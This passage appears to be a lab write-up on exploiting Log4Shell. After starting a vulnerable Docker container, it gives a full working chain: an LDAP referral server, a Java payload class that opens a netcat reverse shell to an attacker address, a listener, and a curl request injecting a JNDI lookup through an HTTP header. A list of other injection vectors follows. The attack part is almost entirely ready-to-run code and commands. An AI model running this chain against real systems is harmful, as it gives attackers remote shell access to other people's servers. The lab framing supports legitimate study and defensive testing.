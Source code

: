 ### Lab Setup

For safe testing, I set up a vulnerable environment using a Docker container:

```bash
docker run --name log4shell-vulnerable-app -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```

### Exploitation Steps

**1. Set up LDAP referral server:**
```bash
java -jar JNDIExploit-1.2.jar -i 10.10.14.5 -p 8888
```

**2. Create malicious payload:**
```java
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 10.10.14.5 4444");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

**3. Compile and host the payload:**
```bash
javac Exploit.java
python3 -m http.server 8000
```

**4. Set up listener:**
```bash
nc -lvnp 4444
```

**5. Trigger the vulnerability:**
```bash
curl -H 'X-Api-Version: ${jndi:ldap://10.10.14.5:1389/Exploit}' http://vulnerable-app:8080
```

Within seconds, you should receive a reverse shell on your listener.

## Attack Vectors

Log4Shell can be triggered through numerous vectors:

- **HTTP Headers**: User-Agent, X-Forwarded-For, X-Api-Version, etc.
- **Form inputs**: Username, password, search fields
- **API parameters**: Any JSON/XML field that gets logged
- **Email subjects**: If the application logs incoming emails
- **File names**: If upload file names are logged
